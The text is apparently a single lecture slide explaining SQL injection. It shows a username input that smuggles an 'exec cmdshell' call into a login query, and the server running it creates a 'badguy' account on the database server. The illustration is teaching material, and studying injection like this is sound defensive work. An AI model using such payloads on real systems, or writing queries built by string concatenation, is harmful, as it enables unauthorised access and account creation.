

# Can Execute Commands
User gives username
   ′ exec cmdshell  ‘net user badguy badpwd’ / ADD --
Web server executes query
   set UserFound=execute(
        SELECT * FROM UserTable WHERE
        username= ‘’ exec … -- … );
Creates an account for badguy on DB server